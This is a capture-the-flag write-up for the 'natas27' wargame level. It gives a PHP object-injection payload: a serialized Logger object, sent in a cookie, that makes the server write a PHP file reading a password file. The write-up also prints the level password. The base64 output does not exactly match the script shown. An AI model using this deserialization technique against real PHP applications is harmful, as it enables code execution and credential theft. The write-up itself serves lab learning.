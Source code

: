 # natas27

PHP Object Injection
Build a php and execute:

```php
<?php
class Logger{
private $logFile;
private $initMsg;
private $exitMsg;
function __construct(){
// initialise variables
$this->initMsg=”#–session started–#\n”;
$this->exitMsg=”<?php include_once(‘/etc/natas_webpass/natas27’);?>”;
$this->logFile = “img/output.php”;
}
}
$output[]=new Logger();
echo base64_encode(serialize($output));
?>
```

Note: try to make the output base64_encoded string clean from “=”, otherwise it may not be accepted

Output String:
YToxOntpOjA7Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxNjoiaW1nL3doYXRpc2l0LnBocCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtzOjIyOiIjLS1zZXNzaW9uIHN0YXJ0ZWQtLSMKIjtzOjE1OiIATG9nZ2VyAGV4aXRNc2ciO3M6NDY6Ijw/cGhwIGluY2x1ZGUoJy9ldGMvbmF0YXNfd2VicGFzcy9uYXRhczI3Jyk7Pz4iO319

Then send this string as “drawing” in the Cookie. It would be unserialized by the server and regarded as a Logger. On destruct function (automatically executed), it will write a php to show the password file.

Password: 55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ
